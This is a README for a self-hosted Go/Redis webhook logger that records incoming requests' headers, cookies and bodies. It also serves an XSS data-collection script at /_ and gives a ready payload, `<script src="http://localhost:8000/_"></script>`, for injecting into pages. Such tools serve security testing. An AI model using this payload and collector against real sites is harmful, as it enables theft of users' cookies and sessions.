 # Adh

This project is nothing innovative or groundbreaking.
I just wanted to create my own webhook to deploy on a VPS, avoiding dependencies on tools like webhook.site, localtunnel, ngrok, or other similar services. It is fully customizable, and you can use it for various purposes like logging, request handling, or data collection.

### Overview

The core of this project is a simple webhook server that listens for incoming HTTP requests, logs the relevant information, and stores request data in Redis. It is built with Go for the backend and uses Redis for storage. The project aims to be lightweight, flexible, and simple to set up, but with room for expansion (such as adding a dashboard).

![img](/images/adh-schema.png)

### Features

- **Data Logging**: Logs requests including headers, cookies, body content, and user agent.
- **Redis Integration**: Store incoming request data in Redis, making it easy to scale or manage.
- **Exploit Script**: Serve a simple exploit script for XSS attacks (stealed from xss.report).
- **High customizability**: Customize the server to fit your needs.
- **Search Bar**: Add a search bar for requests with ***RedisSearch syntax***.

### Dashboard

Below are some screenshots of the dashboard:

| ![Dashboard1](/images/adh-dashboard1.png) | ![Dashboard2](/images/adh-dashboard2.png) |
|-------------------------------------------|-------------------------------------------|
| ![Dashboard3](/images/adh-dashboard3.png) | ![Dashboard4](/images/adh-dashboard4.png) |


### Installation

To get started with the Adh, follow the steps below:

#### Prerequisites

- A machine exposed to the Internet (this tool is not a tunnelling solution such as ngrok or Localtunnel).
- Docker and Docker Compose installed on your machine.

#### Clone the Repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

#### Set Up Docker Containers

1. Modify your environment variables in the `.env` file to suit your configuration based on the provided example.

```
PORT=8000
ADDR=0.0.0.0
LOG_LEVEL=info
REDIS_ADDR=redis
REDIS_PORT=6379
REDIS_URL=redis://redis:6379
USER_ID=0
USER_NAME=akiidjk
USER_PASSWORD=akiidjk
SECRET_KEY=polpetta
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Access the Webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

### Configuration

The following environment variables are available for customization:

- **REDIS_ADDR**: Address of the Redis server. Defaults to `localhost` or `redis` if using Docker.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASS**: Redis password (if needed).
- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **REDIS_URL**: URL of the Redis server. Defaults to `redis://localhost:6379`.
- **USER_ID**: User ID for the application. Defaults to `admin`.
- **USER_NAME**: User name for the application. Defaults to `admin`.
- **USER_PASS**: User password for the application. Defaults to `Admin`.
- **SECRET_KEY**: Secret key for the application. Defaults to `secret`.

### Health Check

The Redis health check is handled by a background goroutine that pings Redis periodically to ensure it's available. The health status is reported through a channel, and you can customize the interval as needed.

### Log Storage

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/var/log/webhook` in the container.

### Example Request

You can send a test request to the webhook with tools like `curl`:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### XSS Script

In the path `/_`, the server returns a JS script which sends a request to the server (to be modified in case it is not localhost:8000) with data in a particular way.

The script is *‘stolen’* from xss.report

A simple payload for get an xss is `<script src="http://localhost:8000/_"></script>`

### To-Do

- [x] **Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future (In progess).
- [x] **Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.
- [x] Fix http problem with Docker
- [x] Implement rate limiting to prevent abuse
- [x] Add logout button
- [x] Add search bar for requests
- [x] Add clear button

### Contributing

Contributions are welcome! Feel free to fork the repository, create issues, and submit pull requests.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

### Conclusion

The Adh Webhook is a flexible and lightweight solution for managing incoming webhooks with custom logging and Redis storage. It's easily deployable with Docker and offers the flexibility to customize headers, storage, and more.
